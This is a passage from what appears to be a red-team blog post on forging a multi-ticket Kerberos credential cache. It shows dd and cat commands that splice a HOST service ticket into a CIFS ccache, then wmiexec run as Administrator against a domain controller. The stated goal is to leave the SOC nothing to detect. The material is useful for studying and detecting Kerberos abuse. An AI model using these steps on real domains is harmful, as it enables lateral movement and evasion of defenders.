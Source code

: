 One possible way around this is to request the HOST ticket but not use it in the ccache. This will stop the “It appeared out of nowhere” detection chance, but I still don’t like it as the ticket generation time will be different. I want to give the SOC absolutely nothing to detect on. :D


Lets dive into the ccache structure and see if we can inject a second TGS.


https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html

```bash
A credential cache (or “ccache”) holds Kerberos credentials while they remain valid
```


credentials, plural meaning multiple. (please dont be a typo) So it is doable!


Going back to the structure of a TGS it will have a bunch of header stuff and then the actual TGS as shown here: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication


The structure will be: Username, Session Key encrypted stuff then TGS. So if we can extract out just the TGS and slap it onto the end of the ccache file it should be fine?


So how do we find the length of this header vaule?


I used impacket’s [ccache.py](http://ccache.py) file cause that seemed like a good place to start, and checked the length of the ticket before and after the header is passed out. For both the TGT and CIFS tickets the difference is 60 (This will change based on the length of the SPN and client).


So cutting off the first 60bytes and pray for the best.

```bash
$ dd if=Administrator-HOST.ccache of=Administrator-HOST-stripped.ccache bs=1 skip=60
1286+0 records in
1286+0 records out
1286 bytes (1.3 kB, 1.3 KiB) copied, 0.00494448 s, 260 kB/s
$ cp Administrator-CIFS.ccache Administrator-MULT.ccache
$ cat Administrator-HOST-stripped.ccache >> Administrator-MULT.ccache
$ klist -c Administrator-MULT.ccache 
Ticket cache: FILE:Administrator-MULT.ccache
Default principal: Administrator@RUNETERRA.LOCAL

Valid starting     Expires            Service principal
18/12/23 03:36:57  18/12/23 13:31:55  CIFS/dc01@RUNETERRA.LOCAL
	renew until 19/12/23 03:31:55
18/12/23 04:00:29  18/12/23 13:31:55  HOST/dc01@RUNETERRA.LOCAL
	renew until 19/12/23 03:31:55
```


Lol it worked.


```bash
$ KRB5CCNAME=$(pwd)/Administrator-MULT.ccache wmiexec.py runeterra.local/Administrator@dc01 -k -no-pass -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/eljay/.local/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[*] SMBv3.0 dialect used
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Target system is dc01 and isFQDN is True
[+] StringBinding: DC01[50601]
```